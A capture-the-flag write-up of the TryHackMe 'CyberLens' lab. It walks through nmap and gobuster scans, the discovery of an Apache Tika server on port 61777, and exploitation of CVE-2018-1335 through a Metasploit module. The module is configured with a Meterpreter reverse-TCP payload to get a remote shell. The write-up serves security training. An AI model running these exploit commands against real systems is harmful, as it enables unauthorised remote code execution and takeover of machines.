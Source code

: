 So, simply visit the IP that you get form the machine and you get to a website where you can upload images and get it's metadata.

We do usual stuff, `nmap -sV -sC cyberlens.thm -vv`
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-31 19:48 EDT
Nmap scan report for cyberlens.thm (10.201.76.93)
Host is up (0.32s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
80/tcp   open  tcpwrapped
|_http-title: CyberLens: Unveiling the Hidden Matrix
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.57 (Win64)
135/tcp  open  tcpwrapped
139/tcp  open  tcpwrapped
445/tcp  open  tcpwrapped
3389/tcp open  tcpwrapped
|_ssl-date: 2025-07-31T23:57:40+00:00; -1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: CYBERLENS
|   NetBIOS_Domain_Name: CYBERLENS
|   NetBIOS_Computer_Name: CYBERLENS
|   DNS_Domain_Name: CyberLens
|   DNS_Computer_Name: CyberLens
|   Product_Version: 10.0.17763
|_  System_Time: 2025-07-31T23:57:26+00:00
| ssl-cert: Subject: commonName=CyberLens
| Not valid before: 2025-07-30T23:43:27
|_Not valid after:  2026-01-29T23:43:27
5985/tcp open  tcpwrapped
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.95%E=4%D=7/31%OT=5985%CT=1%CU=40113%PV=Y%DS=5%DC=T%G=Y%TM=688C0
OS:2F5%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10D%TI=I%CI=RD%II=I%SS=S%
OS:TS=U)SEQ(SP=104%GCD=1%ISR=10F%TI=RD%CI=RD%II=I%TS=U)SEQ(SP=105%GCD=1%ISR
OS:=10A%TI=RD%CI=RD%II=I%TS=U)SEQ(SP=105%GCD=1%ISR=10C%TI=RD%CI=I%II=RI%TS=
OS:U)SEQ(SP=108%GCD=1%ISR=10A%TI=I%CI=RD%TS=U)OPS(O1=M508NW8NNS%O2=M508NW8N
OS:NS%O3=M508NW8%O4=M508NW8NNS%O5=M508NW8NNS%O6=M508NNS)WIN(W1=FFFF%W2=FFFF
OS:%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%DF=Y%T=80%W=FFFF%O=M508NW8NNS%C
OS:C=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A
OS:=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%D
OS:F=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 5 hops

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-07-31T23:57:30
|_  start_date: N/A
|_clock-skew: mean: -1s, deviation: 0s, median: -1s

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   501.15 ms 10.2.0.1
2   ... 4
5   697.25 ms cyberlens.thm (10.201.76.93)

OS and Service detection performed. Please report any incorrect
```

Nothing much directly so we move on to `GoBuster`. Do some path traversal and see if we can find and access any files.
`gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.201.76.93 -e`

This will give us a lot of interesting stuff. More importantly it give us paths such as `/images`, `/js` and `/css`. I think the `/js` would be interesting. `/images` shows images that are being used across the website.
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.201.76.93
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
http://10.201.76.93/.htaccess            (Status: 403) [Size: 199]
http://10.201.76.93/.htpasswd            (Status: 403) [Size: 199]
http://10.201.76.93/Images               (Status: 301) [Size: 235] [--> http://10.201.76.93/Images/]
http://10.201.76.93/aux                  (Status: 403) [Size: 199]
http://10.201.76.93/cgi-bin/             (Status: 403) [Size: 199]
http://10.201.76.93/com3                 (Status: 403) [Size: 199]
http://10.201.76.93/com2                 (Status: 403) [Size: 199]
http://10.201.76.93/com1                 (Status: 403) [Size: 199]
http://10.201.76.93/com4                 (Status: 403) [Size: 199]
http://10.201.76.93/con                  (Status: 403) [Size: 199]
http://10.201.76.93/css                  (Status: 301) [Size: 232] [--> http://10.201.76.93/css/]
http://10.201.76.93/images               (Status: 301) [Size: 235] [--> http://10.201.76.93/images/]
http://10.201.76.93/js                   (Status: 301) [Size: 231] [--> http://10.201.76.93/js/]
http://10.201.76.93/lpt1                 (Status: 403) [Size: 199]
```

`http://10.201.76.93/js/image-extractor.js` here, you can see that there is port **61777** and pat `/meta` that is being used internally.

![[Pasted image 20250731201533.png]]

Accessing this gives you a Apache 1.7 Tika server! Boom. Now let's see if there is any security vulnerability for this version of Apache server!

One google search and we have [RCE (CVE-2018–1335)](https://rhinosecuritylabs.com/application-security/exploiting-cve-2018-1335-apache-tika/)  
and https://www.exploit-db.com/exploits/47208. Now we use the `metasploit` module. It has a module for this CVE so that's convenient!

We can do `searchsploit tika` it will give you the details of all tika exploits that are present on this system. It will tell exact path if you use `-m`. 
```bash
msfconsole
use exploit/windows/http/apache_tika_jp2_jscript
set RHOSTS 10.201.76.93
set RPORT 61777
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <your_kali_ip>
set LPORT <your_listener_port>
exploit
```
Run this and you'll have the reverse shell! Nice!
![[Pasted image 20250731203344.png]]

